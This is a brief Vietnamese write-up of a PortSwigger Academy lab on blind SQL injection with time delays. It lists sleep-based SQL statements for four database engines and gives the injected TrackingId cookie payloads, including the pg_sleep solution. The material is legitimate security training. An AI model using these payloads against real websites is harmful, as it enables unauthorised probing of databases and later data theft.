 # [Lab: Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Lỗ hổng: Blind SQLi, sử dụng time delays

- `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual; oracle`
- `SELECT 'b' FROM demo WHERE '1'='1' WAITFOR DELAY '0:0:10'; mssql`
- `select * from scientist WHERE (SELECT 'a' FROM pg_sleep(5))='a'; postgresql`
- `SELECT 'a' FROM Test WHERE (SELECT SLEEP(0))=1; MYSQL`

1. Tìm các câu lệnh kích hoạt time delay của từng loại db (ở trên), thử từng cái, phát hiện với lệnh time delay của postgresql khiến cho server response chậm:
- `TrackingId=0KhjJsypdBDT5KdQ'+AND+(SELECT+'a'+FROM+pg_sleep(10))%3d'a'--+;`
2. Ơ solved luôn rồi :)) Nhiệm vụ của bài chỉ là kích hoạt time delay.


Solution: `TrackingId=x'||pg_sleep(10)--`